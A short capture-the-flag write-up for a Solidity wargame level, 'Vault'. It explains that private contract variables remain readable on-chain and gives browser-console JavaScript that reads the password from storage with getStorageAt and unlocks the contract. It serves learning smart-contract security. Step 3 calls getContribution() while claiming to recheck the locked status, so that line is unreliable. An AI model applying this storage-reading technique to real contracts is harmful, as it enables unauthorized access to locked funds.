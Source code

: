 # **Level 08 — Vault**

## 🎯 Goal  
Unlock the vault by bypassing the password protection.

## 💥 Vulnerability  
In Solidity, **declaring a variable as private only restricts contract-level access — not external visibility**.
**All contract storage is publicly accessible on the blockchain**.
Thus, even private variables (like password) can be read using tools like Etherscan, web3 or getStorageAt allowing an attacker to retrieve the password and unlock the vault.

The string of the vulnerable code:
```solidity 
bytes32 private password;
```

## 🛠 ️Solution (via browser console)
The following steps were executed:
```js
// JS console input 
// 0. Check the locked status - true  
(await contract.locked()).toString() 

// 1. Get private variable password - "0x412076657279207374726f6e67207365637265742070617373776f7264203a29"
await web3.eth.getStorageAt(instance_address, 1)

// 2. Call unlock fuction 
contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")

// 3. Recheck the locked status - false
(await contract.getContribution()).toString()
```

## 🧙 Outcome
By reading the private variable directly from storage, the vault was unlocked and the level completed.
